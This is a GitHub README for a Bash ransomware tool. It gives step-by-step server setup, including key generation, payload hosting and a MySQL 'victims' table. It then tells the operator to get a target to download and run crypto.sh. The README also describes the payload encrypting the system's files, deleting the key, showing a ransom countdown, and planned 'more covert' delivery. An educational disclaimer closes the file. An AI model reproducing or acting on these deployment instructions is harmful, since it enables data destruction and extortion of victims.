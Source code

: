 # Bash Ransomware

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)

## What to do on the server-side
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ cat /dev/urandom | tr -cd 'A-Za-z0-9' | fold -w 4096 | head -n 1 > key.bin
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - $ cp key.bin /var/www/html/downloads/
 - > Modify crypto.sh and replace the IPwith your web server's IP/URL
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/downloads
 - $ python -m SimplHTTPServer 8080 &
 - $ cd ../
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, and target.php with your database information
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key and key file to the target
 - Move DB settings into a common.php file and refer to that file in each of the scripts (One place to edit instead of numerous places)
 - Loops through the system and encrypts the various files
 - Deletes the key file and leaves the public key
 - Prints the ransom message
 - Links to web pages where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Configure script to download over https, more covert
 - Add in error handling for non-existing files
 - Imporve functionality and capabilities
 - Unique key pair per victim (In work)
 - Add Screenshots
 - Make ransom message on web page prettier 

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes for use in cyber exercises or demonstrations of adversarial tools.

